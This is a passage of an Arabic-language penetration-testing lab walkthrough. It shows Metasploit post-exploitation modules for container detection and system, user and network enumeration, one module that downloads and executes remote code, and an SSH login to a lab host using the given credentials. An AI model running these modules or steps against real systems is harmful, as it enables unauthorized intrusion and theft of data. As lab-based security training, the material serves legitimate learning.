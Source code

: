 نشوف الموديول الثاني  
```bash
use post/linux/gather/checkcontainer  
set SESSION 1  
run  
```  

طبعا هذا الموديول بيعلمك اذا كنت داخل doker او لا ونشوف انه قالنا انه فعلا حنا داخل doker  

طبعا باقي الموديول نفس الطريقة راح اترك لكم ليسته تجربونها لحالكم  

```bash
post/linux/gather/enum_configs  
post/multi/gather/env  
post/linux/gather/enum_network  
post/linux/gather/enum_protections  
post/linux/gather/enum_system  
post/linux/gather/checkcontainer  
post/linux/gather/checkvm  
post/linux/gather/enum_users_history  
post/multi/manage/system_session  
post/linux/manage/download_exec  
```  

الى هنا انتهى اللاب نشوف الي بعدها  

---

راح نبداء باللاب الثامن الي هو  

Privilege Escalation - Rootkit Scanner
---------------------------------------|  

طبعا في هذا اللاب معنا يوزر وباسورد وقال سجل عن طريق الـ SSH ف فورا راح نسويها مايحتاج نفحص 

التارقت طبعا يانفحص كامل الشبكة او ناخذ اخر ديجت ونزود 1 كاختصار  

```bash
SSH Login Credentials:

| Username: jackie |Passowrd: password |  
```  

طبعا راح نشبك الـ SSH عن طريق الـ metasploit  
```bash
use auxiliary/scanner/ssh/ssh_login  
set RHOSTS 192.14.195.3  
set USERNAME jackie  
set PASSWORD password  
exploit  
```  

طبعا الان بنشبك على الـ session الي سواها لنا  
```bash
sessions -i 1  
```  

الان بنفذ امر الي هو 
```bash
ps aux  
```  
طبعا وظيفة هذا الامر يعرض لك البروسس الي شغاله حاليا ويعطيك عنها تفاصيل كثيره  
